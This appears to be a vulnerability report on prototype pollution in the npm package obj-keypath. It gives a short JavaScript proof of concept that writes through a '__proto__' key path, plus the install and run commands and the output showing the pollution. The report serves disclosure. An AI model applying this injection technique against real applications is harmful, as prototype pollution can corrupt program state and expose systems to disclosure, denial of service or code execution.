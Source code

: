 # Description

`obj-keypath` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```javascript
// poc.js
var keypath = require("obj-keypath")

var obj = {};
console.log("Before: " + {}.polluted);
keypath.set(obj, "__proto__.polluted", "Yes, its polluted")
console.log("After: ", {}.polluted);
```
2. Execute the following commands in the terminal:

```bash
npm i obj-keypath # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:

```
Before: undefined
After: Yes, its polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.